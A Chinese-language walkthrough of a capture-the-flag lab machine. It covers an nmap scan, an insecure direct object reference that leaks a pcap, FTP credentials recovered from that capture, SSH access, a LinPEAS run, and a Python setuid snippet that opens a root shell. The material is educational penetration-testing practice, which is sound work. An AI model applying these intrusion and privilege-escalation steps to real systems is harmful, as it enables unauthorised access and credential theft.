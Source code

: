 第一个问题是有几个开放的TCP端口。我们nmap扫描一下：

```
nmap 10.10.10.245 -sV -sC -O -v
```

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    Gunicorn
|_http-title: Security Dashboard
| http-methods: 
|_  Supported Methods: HEAD OPTIONS GET
|_http-server-header: gunicorn
Device type: general purpose
Running: Linux 4.X|5.X
```

可以看到有三个端口，先尝试一下`anonymous`匿名登录ftp，发现不行。

登录网页看一眼

![image-20250924160537791](https://raw.githubusercontent.com/ssaa769/typora-images/main/typora/image-20250924160537791.png)

问题提示注意url，问能访问别人的扫描记录吗？OK得知是水平越权访问。改变data后面的id值找找，id=0时有数据。

下载是一个pcap文件，我们用wireshark打开分析：

数据包较少，我们快速搂一眼，发现有ftp，想到ftp是明文传输的，会泄露账户和密码。我们过滤器输入ftp，然后找找

![image-20250924161116977](https://raw.githubusercontent.com/ssaa769/typora-images/main/typora/image-20250924161116977.png)

找到了用户名：`nathan`密码：`Buck3tH4TF0RM3!`

ftp登录一下：

```
Name (10.10.10.245:orange): nathan
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
```

ok成功登录，搂一眼有哪些文件

```
ftp> ls
229 Entering Extended Passive Mode (|||33317|)
150 Here comes the directory listing.
-rwxr-xr-x    1 1001     1001       961834 Sep 24 04:24 linpeas.sh
drwxr-xr-x    3 1001     1001         4096 Sep 24 04:27 snap
-r--------    1 1001     1001           33 Sep 24 04:14 user.txt
```

不管是啥，先全部`get`下载到本地。但是发现snap目录嵌套很深，一层层`cd`然后`get`太慢了

可以使用工具`wget`：

```
wget ftp://10.10.10.245/* --ftp-user=nathan  --ftp-password=Buck3tH4TF0RM3! -r
```

snap下只有一个config.yml没有价值，而linpeas.sh又是一个bash脚本。我们试试用户名密码登录ssh：

```
ssh nathan@10.10.10.245
```

成功登入！

先试试`sudo -l`，结果显示nathan没有sudo权限。看一看`/etc/passwd`，没有找到什么有趣的信息。

`ls -l`搂一眼根目录，有一个`/lost+found`的目录很诱人。丢失了又找回了什么？有可能是root密码。但是很可惜，它阻止了我们的进入，而这显得更加可疑。

回到主目录，运行一下sh脚本。看名字`linpeas`想起了`winpeas`，这不会也是什么权限提升工具吧？

运行一下啊，还真是！

![image-20250924165030103](https://raw.githubusercontent.com/ssaa769/typora-images/main/typora/image-20250924165030103.png)

我们问一下deepseek，估计挺有名的：

> ### 什么是 LinPEAS？
>
> **LinPEAS** 是 **Linux Privilege Escalation Awesome Script** 的缩写。它是一个功能强大的 Bash 脚本，专门用于在 Linux 系统上自动检测和发现可能的权限提升路径。
>
> 简单来说，它的核心任务是：**帮助你从一个低权限的 shell（例如，一个被入侵的 Web 服务账户）中，系统地找出系统配置错误、弱密码、敏感信息泄露等问题，从而尝试提升到 root 权限。**
>
> ### 开发背景与定位
>
> LinPEAS 由西班牙安全研究员 **Carlos Polop** 开发，并作为其著名渗透测试项目 **PEASS-ng** 的一部分。PEASS-ng 系列还包括 WinPEAS（用于 Windows）和 MacPEAS（用于 macOS）。

ok原来和winpeas还是一个作者。

![image-20250924165401120](https://raw.githubusercontent.com/ssaa769/typora-images/main/typora/image-20250924165401120.png)

在kali中找寻一下，果然linpeas和winpeas都已经内置好了，这权威性不多说。

最醒目的是**CVE-2021-3560**，这是Polkit权限提升漏洞

![image-20250924165801925](https://raw.githubusercontent.com/ssaa769/typora-images/main/typora/image-20250924165801925.png)

还有

![image-20250924165908076](https://raw.githubusercontent.com/ssaa769/typora-images/main/typora/image-20250924165908076.png)

~~这个python3.8没找到，`python --version`查看版本也只有`Python 3.13.7`~~

这里是断开ssh连接了，我都没发现，在自己的机子当然找不到python3.8

这个python3.8设置了suid位，直接用它提权到root即可，CVE-2021-3560没用上。

```
import os
os.setuid(0)
os.system("/bin/bash")
```

这里靶机卡死了，最后的root flag也没拿上。CVE-2021-3560复现就等到vulhub了。